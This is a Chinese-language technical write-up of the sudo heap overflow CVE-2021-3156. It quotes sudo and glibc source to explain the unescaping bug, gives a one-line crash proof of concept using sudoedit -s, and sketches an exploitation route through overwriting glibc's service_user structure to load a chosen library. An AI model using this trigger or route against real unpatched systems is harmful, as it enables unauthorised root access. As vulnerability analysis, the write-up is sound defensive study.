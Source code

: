 ## 1. 基本信息

CVE-2021-3156：sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具。此漏洞主要是由于sudoedit和sudo对命令行参数解析处理不一致导致的。

影响范围：1.8.2 <= Sudo <= 1.8.31p2, 1.9.0 <= Sudo <= 1.9.5p1

- Qualys Research Team发现此漏洞的[文章地址](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
- 部分可用crash的具体细节[文章地址](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)

## 2. 分析

### 2.1. 漏洞成因

1. sudo在执行shell命令模式（-s或-i）下，会把所有的命令拼接在一起。

``` c++
    if (ISSET(mode, MODE_RUN) && ISSET(flags, MODE_SHELL)) {
        char **av, *cmnd = NULL;
        int ac = 1;
        ...
            cmnd = dst = reallocarray(NULL, cmnd_size, 2);
            ...
            for (av = argv; *av != NULL; av++) {
                for (src = *av; *src != '\0'; src++) {
                    /* quote potential meta characters */
                    if (!isalnum((unsigned char)*src) && *src != '_' && *src != '-' && *src != '$')
                        *dst++ = '\\'; // 转译
                    *dst++ = *src;
                }
                *dst++ = ' '; // 空格拼接
            }
            ...
            ac += 2; /* -c cmnd */
            ...
        av = reallocarray(NULL, ac + 1, sizeof(char *));
        ...
        av[0] = (char *)user_details.shell; /* plugin may override shell */
        if (cmnd != NULL) {
            av[1] = "-c";
            av[2] = cmnd;
        }
        av[ac] = NULL;

        argv = av;
        argc = ac;
    }
```

2. 后续会把参数再反转译回来，但此处判断不严谨，如果`\`是最后一个字符，配合`\x00`绕过isspace判断，使得此处继续反转译后续字符串，造成user_args指向的堆内存堆溢出。

``` c++
    if (sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)) {
        ...
            for (size = 0, av = NewArgv + 1; *av; av++)
                size += strlen(*av) + 1;
            if (size == 0 || (user_args = malloc(size)) == NULL) {
                ...
            }
            if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
            ...
                for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
                    while (*from) {
                        if (from[0] == '\\' && !isspace((unsigned char)from[1]))
                            from++; // 反转译
                        *to++ = *from++;
                    }
                    *to++ = ' ';
                }
                ...
            }
            ...
    }
```

3. 因此寻找满足以下逻辑，且不进入sudo主程序中转译部分的输入，即只要满足`MODE_SHELL & (MODE_EDIT | MODE_CHECK)`，就可以触发漏洞。

```
sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)
ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)
```

理论上，`sudo -s -e/-l`结合可以达到目标

但是：

- 存在`MODE_RUN`会进入转译阶段
- `sudo`的`-e/-l`模式会重置`valid_flags`，造成验证不通过。

``` c++
                case 'e':
                    ...
                    mode = MODE_EDIT;
                    sudo_settings[ARG_SUDOEDIT].value = "true";
                    valid_flags = MODE_NONINTERACTIVE;
                    break;
                    ...
                case 'l':
                    ...
                    mode = MODE_LIST;
                    valid_flags = MODE_NONINTERACTIVE|MODE_LONG_LIST;
                    break;
                    ...
    if (argc > 0 && mode == MODE_LIST)
        mode = MODE_CHECK;
        ...
    if ((flags & valid_flags) != flags)
        usage(1);
```

后来发现`sudoedit`的默认模式不存在`MODE_RUN`，且使用`-s`模式不会重置`valid_flags`，因此可以利用。

···
#define DEFAULT_VALID_FLAGS  (MODE_BACKGROUND|MODE_PRESERVE_ENV|MODE_RESET_HOME|MODE_LOGIN_SHELL|MODE_NONINTERACTIVE|MODE_SHELL)
    ...
    int valid_flags = DEFAULT_VALID_FLAGS;
    ...
    proglen = strlen(progname);
    if (proglen > 4 && strcmp(progname + proglen - 4, "edit") == 0) {
        progname = "sudoedit";
        mode = MODE_EDIT;
        sudo_settings[ARG_SUDOEDIT].value = "true";
    }
···

### 2.2. PoC

由于堆溢出覆盖了top chunk的头部，因此报错。

``` bash
$ sudoedit -s '\' `perl -e 'print "A" x 65536'`
malloc(): corrupted top size
Aborted
```

### exp思路


该团队在[文章](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)中给出部分可用crash的具体细节，网上大部分利用思路围绕在第2点，即service_user结构体的overwrite。

在glibc中service_user结构体定义如下

``` c++
typedef struct service_user
{
  /* And the link to the next entry.  */
  struct service_user *next;
  /* Action according to result.  */
  lookup_actions actions[5];
  /* Link to the underlying library object.  */
  service_library *library;
  /* Collection of known functions.  */
  void *known;
  /* Name of the service (`files', `dns', `nis', ...).  */
  char name[0];
} service_user;
```

具体产生利用位置如下，堆溢出至`ni`指向地址，使得`ni->library == NULL`避免crash，此时进入`nss_new_service`函数，从而进入`ni->library->lib_handle == NULL`逻辑。溢出同时改掉`name`的内容，

``` c++
static int
nss_load_library (service_user *ni)
{
  if (ni->library == NULL)
    {
    ...
      ni->library = nss_new_service (service_table ?: &default_table,
                                     ni->name);
    ...
    }

  if (ni->library->lib_handle == NULL)
    {
      /* Load the shared library.  */
      size_t shlen = (7 + strlen (ni->name) + 3
                      + strlen (__nss_shlib_revision) + 1);
      int saved_errno = errno;
      char shlib_name[shlen];

      /* Construct shared object name.  */
      __stpcpy (__stpcpy (__stpcpy (__stpcpy (shlib_name,
                                              "libnss_"),
                                    ni->name),
                          ".so"),
                __nss_shlib_revision);

      ni->library->lib_handle = __libc_dlopen (shlib_name);
```


### 2.3. 修复

更新sudo版本

## 3. 复现

[https://github.com/pinohans/vulbox/tree/master/CVE-2021-3156](https://github.com/pinohans/vulbox/tree/master/CVE-2021-3156)

